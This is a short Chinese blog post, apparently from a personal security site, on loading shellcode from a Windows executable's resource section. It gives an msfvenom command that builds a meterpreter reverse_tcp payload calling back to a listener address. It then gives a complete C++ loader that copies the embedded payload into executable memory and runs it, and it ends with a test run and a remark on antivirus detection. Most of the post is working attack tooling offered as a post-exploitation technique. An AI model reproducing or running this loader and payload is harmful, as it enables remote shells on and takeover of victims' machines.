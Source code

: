 ```yaml
---
title: 通过资源文件加载Shellcode
date: 2020-12-25 13:51:10
tags: 
- Shellcode
- 后渗透
---
```










### 0x01 生成Shellcode

``` 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.133 LPORT=12345 >payload.bin
```

### 0x02 添加资源文件

右键`资源文件>添加>资源`添加我们刚刚生成的Shellcode

![image-20201225140005634](image-20201225140005634.png)

选择`导入`，添加`payload.bin`

![image-20201225140229778](image-20201225140229778.png)

![image-20201225140458518](image-20201225140458518.png)

我们可以在资源文件中看到我们的bin文件已经被加载

![image-20201225140603313](image-20201225140603313.png)

代码：

``` c++
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"PAYLOAD_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

	void* exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```



### 0x03 编译和验证

编译成功没有什么问题

![image-20201225141139791](image-20201225141139791.png)

生成的exe放到虚拟机里运行一下，成功

![image-20201225141256996](image-20201225141256996.png)

免杀率……将就吧，毕竟并没有做什么免杀的措施，只是一种加载shellcode的技巧而已

![image-20201225141643919](image-20201225141643919.png)